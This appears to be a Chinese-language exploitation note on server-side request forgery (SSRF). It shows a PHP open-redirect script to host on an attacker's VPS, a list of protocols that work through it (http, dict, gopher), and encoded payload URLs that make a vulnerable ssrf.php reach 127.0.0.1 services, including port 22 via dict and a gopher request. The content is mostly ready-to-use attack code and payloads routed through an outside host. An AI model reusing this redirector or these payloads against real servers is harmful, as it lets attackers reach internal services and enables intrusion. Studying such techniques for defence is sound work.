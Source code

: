 **vps上的脚本**

```Php
<?php
	$schema = $_GET['schema'];
	$ip = $_GET['ip'];
	$port = $_GET['port'];
	$query = $_GET['query'];

	echo "\n";
	echo $schema . "://" . $ip . "/" . $query;

	if(empty($port))
    {
    	header("Location: $schema://$ip/$query");
    }
	else
    {
    	header("Location: $schema://$ip:$port/$query");
    }
?>
```

#### 可利用的协议

```
http/https ok
dict ok
gopher ok
file no!!
```

#### 利用方法

**http/https**

```
http://112.74.35.205/ssrf/ssrf.php?url=http%3a%2f%2f112%2e74%2e35%2e205%2fssrf%2f302%2ephp%3fschema%3dhttp%26ip%3d127%2e0%2e0%2e1%26port%3d80
```

![](https://ws1.sinaimg.cn/large/006Vib6xgy1focx1hgty4j30y00kx0yo.jpg)

**dict**

```
http://112.74.35.205/ssrf/ssrf.php?url=http%3a%2f%2f112%2e74%2e35%2e205%2fssrf%2f302%2ephp%3fschema%3ddict%26ip%3d127%2e0%2e0%2e1%26port%3d22%26query%3dinfo
```

![](https://ws1.sinaimg.cn/large/006Vib6xgy1fodhyqc0maj30xw06yadn.jpg)

**gopher**

```
http://112.74.35.205/ssrf/ssrf.php?url=http%3a%2f%2f112%2e74%2e35%2e205%2fssrf%2f302%2ephp%3fschema%3dgopher%26ip%3d127%2e0%2e0%2e1%26port%3d2333%26query%3d8888
```
